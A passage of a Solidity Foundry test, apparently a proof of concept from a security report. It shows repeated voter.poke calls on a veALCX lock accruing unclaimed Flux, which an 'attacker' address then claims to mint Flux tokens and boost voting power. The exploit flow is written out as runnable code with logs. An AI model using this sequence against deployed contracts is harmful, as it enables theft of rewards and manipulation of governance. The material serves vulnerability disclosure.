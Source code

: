 ```solidity
            voter.poke(tokenId1);                       
        
        }
        
        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker));

    }

    function testFluxAccrual_Poke_Normal() public {
        
        address attacker = address(this); 
        console2.log("Start to createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 2 weeks, false);
                
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        console2.log("Call voter.poke(tokenId1)");          
        voter.poke(tokenId1);
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        console2.log("unclaimedFlux1: %s", unclaimedFlux);

        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker));
             

    }

} 


```
